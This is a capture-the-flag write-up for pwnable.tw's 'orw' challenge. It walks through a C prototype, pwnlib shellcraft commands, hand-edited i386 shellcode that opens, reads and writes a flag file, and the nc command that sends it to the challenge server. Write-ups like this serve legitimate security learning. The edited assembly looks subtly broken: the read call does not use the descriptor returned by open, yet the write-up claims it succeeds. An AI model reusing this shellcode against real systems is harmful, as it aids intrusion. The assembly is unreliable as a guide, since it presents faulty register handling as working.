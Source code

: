 # Open-Read-Write Problem 

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

nc chall.pwnable.tw 10001
```

## 1. Create a C program that demonstrates the functionality

```clang
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void test() {
        int fd = syscall(SYS_open, "/home/orw/flag", O_RDONLY, 0);
        char buf[100];
        syscall(SYS_read, fd, &buf, 100);
        syscall(SYS_write, 1, buf, 100);
}
int main() {
        test();
        return 0;
}
```

## 2. Rough out equivalent assembly using pwnlib

The syscalls `SYS_read` and `SYS_write` take in a buffer. We didn't know how to express this in pwnlib, so we just put 
in the value `60` in place of the buffer.

```bash
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.open('/home/orw/flag').rstrip())"
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_read', 1, 60, 100).rstrip())" 
python -c "from pwn import *; print(pwnlib.shellcraft.i386.linux.syscall('SYS_write', 1, 60, 100).rstrip())"
```

## 3. Piece together rough assembly code

We had to tie together the `SYS_read` and `SYS_write` system calls by replacing the stubbed buffer value of `60`
with the stack pointer. We also replaced the syscall macros with their respective integer numbers just in case.

```asm
    /* open(file='/home/orw/flag', oflag=0, mode=0) */
    /* push '/home/orw/flag\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
 -  push SYS_open /* 5 */
 +  push 0x5
    pop eax
    int 0x80
    /* call read(1, 0x3c, 0x64) */
 -   push SYS_read /* 3 */
 +   push 0x3
    pop eax
 -  push 1
 -  pop ebx
 -  push 0x3c
 -  pop ecx
 +  mov ecx, esp
    push 0x64
    pop edx
    int 0x80
    /* call write(1, 0x3c, 0x64) */
 -   push SYS_write /* 4 */
 +   push 0x4
    pop eax
    push 1
    pop ebx
 -  push 0x3c
 +  pop ecx
    push 0x64
    pop edx
    int 0x80
```

We then placed all of these instructions into the `asm` pwntools function. 

## 4. Execute

```bash
python shellcode.py | nc chall.pwnable.tw 10001
``` 

Returns:

```bash
mike@mike-VirtualBox:~/dev/challenges/2$ python shellcode.py | nc chall.pwnable.tw 10001
Give my your shellcode:FLAG{redacted}
```  

